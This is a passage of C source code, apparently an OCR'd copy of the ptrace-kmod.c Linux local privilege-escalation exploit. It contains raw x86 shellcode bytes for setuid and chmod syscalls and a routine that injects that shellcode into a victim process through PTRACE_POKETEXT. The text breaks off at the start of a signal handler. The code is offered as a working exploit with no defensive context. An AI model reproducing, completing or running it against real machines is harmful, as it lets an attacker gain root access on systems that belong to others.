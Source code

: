 ```c ptrace-kmod.c
#include <grp.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <paths.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <sys/param.h>
#include <sys/types.h>
#include <sys/ptrace.h>
#include <sys/socket.h>
#include <linux/user.h>

char cliphcode[] =
	"\x90\x90\xeb\x1f\xb8\xb6\x00\x00"
	"\x00\x5b\x31\xc9\x89\xca\xcd\x80"
	"\xb8\x0f\x00\x00\x00\xb9\xed\x0d"
	"\x00\x00\xcd\x80\x89\xd0\x89\xd3"
	"\x40\xcd\x80\xe8\xdc\xff\xff\xff";

#define CODE_SIZE (sizeof(cliphcode) - 1)

pid_t parent = 1;
pid_t child = 1;
pid_t victim = 1;
volatile int gotchild = 0;

void fatal(char * msg)
{
	perror(msg);
	kill(parent, SIGKILL);
	kill(child, SIGKILL);
	kill(victim, SIGKILL);
}

void putcode(unsigned long * dst)
{
	char buf[MAXPATHLEN + CODE_SIZE];
	unsigned long * src;
	int i, len;

	memcpy(buf, cliphcode, CODE_SIZE);
	len = readlink("/proc/self/exe", buf + CODE_SIZE, MAXPATHLEN - 1);
	if (len == -1)
		fatal("[-] Unable to read /proc/self/exe");

	len += CODE_SIZE + 1;
	buf[len] = '\0';
	
	src = (unsigned long*) buf;
	for (i = 0; i < len; i += 4)
		if (ptrace(PTRACE_POKETEXT, victim, dst++, *src++) == -1)
			fatal("[-] Unable to write shellcode");
}

void sigchld(int signo)
{
	struct user_regs_struct regs;

```